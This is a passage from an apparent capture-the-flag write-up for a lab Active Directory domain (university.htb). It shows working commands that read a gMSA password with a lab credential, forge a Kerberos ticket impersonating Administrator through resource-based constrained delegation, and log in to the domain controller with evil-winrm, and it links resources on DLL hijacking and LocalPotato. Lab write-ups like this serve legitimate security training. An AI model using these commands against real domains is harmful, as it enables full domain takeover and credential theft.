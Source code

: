 Checking our BloodHound data we have now privilage users which could be used in domain escalation, Somw of our owned users members of the `Account Operators` and `Help Desk` Groups  

![](https://cdn-images-1.medium.com/max/1000/1*O6eJdvOxAt2kMuef6IFxOg.png)

### Read GMSA
Rose.L → Account Operators → can ReadGMSAPassword for `GMSA-PClient01$` → that account has AllowedToAct on the DC → use Resource-Based Constrained Delegation (RBCD) to impersonate any domain user (including DA) to the DC → full domain compromise.

In short:

+ We will use `Rose.L` creds to dump the GMSA password.

+ With `GMSA-PClient01$` creds, leverage the **AllowedToAct** permission for RBCD.

+ Request a TGS as any high-privilege user to the DC and execute commands.

GMSA Read

```bash
bloodyAD --host dc01.vintage.htb --domain "university.htb" --dc-ip 10.10.11.39 -u Rose.L -p 'v3ryS0l!dP@sswd#X' get object 'GMSA-PCLIENT01$' --attr msDS-ManagedPassword 
```
![](https://cdn-images-1.medium.com/max/1000/1*UYeC0WzAtHLr6pHK6zMXBQ.png)

### Impersonating Administrator

1. Request ticket as administrator
    ```bash
    impacket-getST -dc-ip 10.10.11.39 -spn http/dc.university.htb -hashes :6D364C74FF11B3BCE0BC41C097BF55C8 -impersonate Administrator university.htb/'GMSAPCLIENT01$'

    ```
2. Export the ticket to use
    ```bash
    KRB5CCNAME=Administrator@http_dc.university.htb@UNIVERSITY.HTB.ccache
    ```
3. Authenticate as Administrator

    ```bash
    evil-winrm -i dc.university.htb -r university.htb 
    ```

---

## 7. Resources 

+ [Internet shortcuts and DLL highjacking TL; DR](https://www.dotsec.com/internet-shortcuts-and-dll-hijacking/)

+ [Shortcut To Malice: URL Files](https://inquest.net/blog/shortcut-to-malice-url-files/)

+ [LocalPotato - When Swapping The Context Leads You To SYSTEM](https://www.localpotato.com/localpotato_html/LocalPotato.html)

+ [LocalPotato – When Swapping The Context Leads You To SYSTEM](https://decoder.cloud/2023/02/13/localpotato-when-swapping-the-context-leads-you-to-system/)

